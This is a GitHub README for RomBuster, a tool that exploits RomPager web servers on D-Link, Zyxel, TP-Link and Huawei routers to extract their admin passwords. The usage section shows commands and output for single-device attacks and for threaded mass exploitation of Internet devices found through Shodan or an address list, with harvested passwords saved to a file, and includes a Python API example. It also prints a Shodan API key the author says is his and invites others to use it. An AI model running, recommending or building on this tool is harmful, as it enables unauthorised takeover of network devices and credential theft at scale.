# RomBuster

RomBuster is a RomPager exploitation tool that allows to disclosure network device admin password.

## Features

* Exploits vulnerabilities in most popular devices with RomPager installation such as `D-Link`, `Zyxel`, `TP-Link` and `Huawei`.
* Optimized to exploit multiple devices at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## Basic usage

To use RomBuster just type `rombuster` in your terminal.

```
usage: rombuster [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--api API]

RomBuster is a RomPager exploitation tool that allows to disclosure network
device admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --api API             Shodan API key for exploiting devices over Internet.
```

### Examples

Let's hack my device with RomPager installation just for fun.

```shell
rombuster -a 192.168.2.1
```

**output:**

```shell
[*] (192.168.2.1) - connecting to device...
[*] (192.168.2.1) - accessing device rom...
[*] (192.168.2.1) - extracting admin password...
[i] (192.168.2.1) - password: SuperHardPassword999
```

Let's try to use Shodan search engine to exploit devices over Internet and save all obtained passwords to `passwords.txt`, we will use it with `-t` for fast exploitation.

```shell
rombuster -t --api PSKINdQe1GyxGgecYz2191H2JoS9qvgD -o passwords.txt
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**output:**

```shell
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

Let's try to use opened database of hosts with `-t` for fast exploitation.

```shell
rombuster -t -i devices.txt -o passwords.txt
```

**NOTE:** It will exploit all devices in `devices.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## RomBuster API

RomBuster also has their own Python API that can be invoked by importing RomBuster to your code:

```python
from rombuster import RomBuster
```

### Basic functions

There are all RomBuster basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by network address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from rombuster import RomBuster

rombuster = RomBuster()

device = rombuster.connect('192.168.2.1')
print(rombuster.exploit(device))
```

**output:**

```shell
'SuperHardPassword999'
```

## Other tools

<p align="center">
    <a href="https://github.com/EntySec/Ghost">
        <img src="https://img.shields.io/badge/EntySec-%20Ghost-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/EntySec-%20HatVenom-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Shreder">
        <img src="https://img.shields.io/badge/EntySec-%20Shreder-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatSploit">
        <img src="https://img.shields.io/badge/EntySec-%20HatSploit-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/EntySec-%20CamOver-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/EntySec-%20CamRaptor-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/membrane">
        <img src="https://img.shields.io/badge/EntySec-%20membrane-f34c79.svg">
    </a>
    <a href="https://github.com/EntySec/pwny">
        <img src="https://img.shields.io/badge/EntySec-%20pwny-448eff.svg">
    </a>
</p>
